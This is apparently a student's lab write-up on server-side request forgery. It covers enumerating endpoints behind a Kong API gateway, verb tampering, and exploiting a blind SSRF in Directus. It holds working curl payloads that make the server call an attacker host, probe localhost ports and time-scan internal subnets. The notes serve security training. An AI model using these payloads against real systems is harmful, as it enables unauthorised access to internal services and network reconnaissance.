 # Server-Side Request Forgery 
## Intro to Microservices

Many development teams have moved from monolithic web apps to smaller "micro" web services.  

![image](https://user-images.githubusercontent.com/99839823/222589799-18527f6a-b236-4e2d-9654-bb79e8195965.png)

Microservices provide the basic required functionality without dependencies.  

Microservices are often run in containers and must intercommunicate. Containers and their IPs are ephemeral, so they often use DNS for discover. 

Microservices modules expose their functionality by APIs. When an API is running over HTTP or HTTPS, it is called a web service. The two most common types of web services are SOAP and RESTful.  

An API gateway is used to provide a single entry point for the microservices. 

![image](https://user-images.githubusercontent.com/99839823/222592086-d1a0cb1c-2842-4e40-9b0a-321496fbc23f.png)

The microservices usually don't have their own security controls implemented, so bypassing the API gateway can subvert these controls. 

### References: 
https://en.wikipedia.org/wiki/Microservices  
https://en.wikipedia.org/wiki/SOAP  
https://en.wikipedia.org/wiki/Representational_state_transfer#Applied_to_web_services  
https://microservices.io/patterns/apigateway.html  

## Web Service URL Formats

URLs are often parsed with regular expressions. For example, an API gateway might be configured to send any URI that starts with /user to a specific service. 
### References:
https://bestbuyapis.github.io/api-documentation/#create-your-first-query  
https://www.troyhunt.com/your-api-versioning-is-wrong-which-is/  
https://haveibeenpwned.com/API/v3#Authorisation  
https://docs.github.com/en/rest/overview/resources-in-the-rest-api  
https://apiguide.readthedocs.io/en/latest/build_and_publish/use_RESTful_urls.html  

## API Discovery via Verb Tampering   

RESTful APIs often tie functionality to HTTP request methods, or verbs. So a service might have the same URL perform different actions based on the HTTP request's method.

**HTTP Methods**  
- GET: Retrieves data or object
- POST: Creates data or object
- PUT or PATCH: Updates the data of an existing object
- DELETE: Deletes an object

This is all application specific. A RESTful web service might not perform according to the REST standard. 

Regular enumeration tools normally send GET requests. These tools might miss endpoints that do not respond to GET requests. 

### Initial Enumeration

Start with sending an HTTP request to the API gateway with *curl* 
```bash
curl -i http://apigateway:8000
```

The server responds with kong/2.2.1. Looking at google we can see that the admin API runs on port 8001.  

A connection to this is refused. We'll come back to it later. 

Lets use feroxbuster to enumerate endpoints running on port 8000
```bash
feroxbuster -u http://apigateway:8000 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

I copy and pasted the results into a text file and used the command below to clean it up.

```bash
sort endpoints.txt | cut -d" " -f1 | cut -d "/" -f2 > endpoints_sorted.txt
```

I get these results in Burp Suite intruder. Sort by status code. There are four 401 forbidden results. 

Look through all the results. There is an X-Powered-By header that indicates it is a Directus application. 

There seems to be three distinct endpoints: files, users, and render.

### Advanced Enumeration with Verb Tampering
See `route_buster.py`

We get a different result by fuzzing both get and post requests.

Extra mile: put and patch methods are added to the script, the /users/invite endpoint needs an email to make a valid request.
### References:
https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods  
https://konghq.com/kong/  
https://docs.konghq.com/gateway-oss/2.3.x/admin-api/  
https://directus.io/

## Intro to SSRF
SSRF occurs when an attacker can force an application or server to request data or a resource. 
SSRF can be especially effective against microservices, due to bypassing the security controls of a reverse proxy or an API gateway. 

### SSRF Discovery

Always check *url* parameters in an API or web form for an SSRF vulnerability. 

Send payload and try to request file from local machine:

```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.119.138/ssrftest"}' http://apigateway:8000/files/import
```

check apache log on kali: 
```bash
sudo tail /var/log/apache2/access.log
```
This is an unauthenticated blind ssrf vuln

## Source Code Analysis
**Extra Mile**
Review the source code for `/users/invite`. Determine why it cannot be exploited.

**My answer:**
On line 96 the *.verify* function is used on the java web token. 

## Exploiting Blind SSRF in Directus
Since we get different results based off if the resource is there or not we can infer whether a resource exists.
We get 403 forbidden for a valid resource and 500 internal server error for a resource that doesn't exist.

Try to access ports running on target localhost: 
```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://localhost:8000/"}' http://apigateway:8000/files/import
```

If Directus is running on a different server behind the gateway, then "localhost" would refer to the server running Directus, not the server running Kong API Gateway. 

Default port for directus is 8055. 
```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://localhost:8055/"}' http://apigateway:8000/files/import
```

#### Exercises
1. Repeat the steps above.
2. Use the SSRF vulnerability to access a non-HTTP service running on your Kali host. What is the result? How might this be useful?
3. Try to identify more error messages. What happens if you request an invalid IP address?
#### Answers
1. Done
2. I started SSH server and checked that I could enumerate that. 
3. Invalid IPs give an appropriate error message. 

## Subnet Scanning with SSRF

Rather than scanning an entire subnet, we can try scanning for network gateways.2 Network designs commonly use a /16 or /24 subnet mask with the gateway running on the IP where the forth octet is ".1" (for example: 192.168.1.1/24 or 172.16.0.1/16).

We can check for valid hosts but closed ports with the following: 
```bash
curl -X POST -H "Content-Type: application/json" -d '{"url":"http://127.0.0.1:6666"}' http://apigateway:8000/files/import -s -w 'Total: %{time_total} microseconds\n' -o /dev/null
```

The request to a closed port is taking me about .25 - .31 seconds. 

When changing the host to a non reachable one, it takes much longer. 

Check ssrf_gaway_scanner.py to see the finished script. 

### References

https://nmap.org/book/man-host-discovery.html
